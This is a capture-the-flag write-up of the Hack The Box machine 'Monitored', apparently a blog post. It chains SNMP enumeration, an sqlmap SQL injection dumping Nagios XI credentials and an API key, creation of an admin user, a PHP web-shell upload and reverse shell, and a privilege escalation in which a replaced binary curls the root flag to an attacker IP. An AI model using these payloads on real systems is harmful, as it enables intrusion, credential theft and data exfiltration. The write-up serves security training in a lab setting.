 ```yaml
---
title: HTB Monitored Writeup
author: Elus1nist
layout: post
date: 16 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/d4988810825d26acb2e84ca0ac9feaf4.png
---
```

Welcome! This is my writeup of the new Season 4 Medium machine from HTB, Monitored. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.248 
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.248
Host is up (0.082s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `nagios.monitored.htb` and a redirect so a dead end
- Port 389: LDAP - Since we have this service we can utilize ldap search or also assume SNMP and enumerate that
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating SNMP

Enumerating SNMP with `public` community string:
```
snmpwalk -v2c -c public 10.10.11.248
STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc ~~redacted~~"
```
This gives us a set of credentials that can be used to log into - 
https://nagios.monitored.htb/nagios/

Once logged in we can then follow the security advisory and launch an SQL Injection attack against an admin endpoint

---
---
## SQL Injection to dump User data

Using the information from a security advisory, I leveraged SQLMap to dump the backend DB:
```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users
```
| user_id | email | name | api_key | enabled | password | username | 
|---|---|---|---|---|---|---|
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin

We can now interact with the nagios API as an admin user!

---
---
## NagiosXI Admin Pivot

We can now use the nagiosxi API to create a new admin user:
```
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=ElusnAdmin&password=myadmin&name=myadmin&email=myadmin@localhost&auth_level=admin"
```
We can now login to the nagiosxi portal as an admin

*Insert Image here*

---
---
## Setting Up for PHP File Upload

The following steps were taken so as to be 
- Login to /nagiosxi/
- Go to https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php
- Upload jpg -> rename to .htaccess -> rename back to test.jpg
- Upload php shell with jpg magic bytes: <?php system($_GET['cmd']); ?>;
- Visit the web shell and get a bash reverse shell
- pop shell as www-data

---
---
## Privilege Escalation Path

As an easy win, I first checked the output of `sudo -l` for commands that could be run as www-data:
```
sudo -l
User www-data may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```

A subsequent search of the linpeas output shows us a writable service executable path:
`/usr/local/nagios/bin/nagios`

---
---
## Privilege Escalation Exploit

### Step 1:

So first we generate a reverse shell executable on the attacker local box `rootrev.sh`:
```
#!/bin/bash
ls_content=$(<"/root/root.txt")
curl -o test "http://10.10.16.44:9001/${ls_content}"
```

### Step 2:
Spin up a python web server (This will be used to fetch stage 1 of the exploit + Recieve data from exfil)
```
sudo python3 -m http.server 9001
```

### Step 3:
Replace nagios executable on target box
```
curl http://10.10.16.44:9001/rootrev.sh -o /usr/local/nagios/bin/nagios
```

### Step 4:
Restart nagios service and gain root flag

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```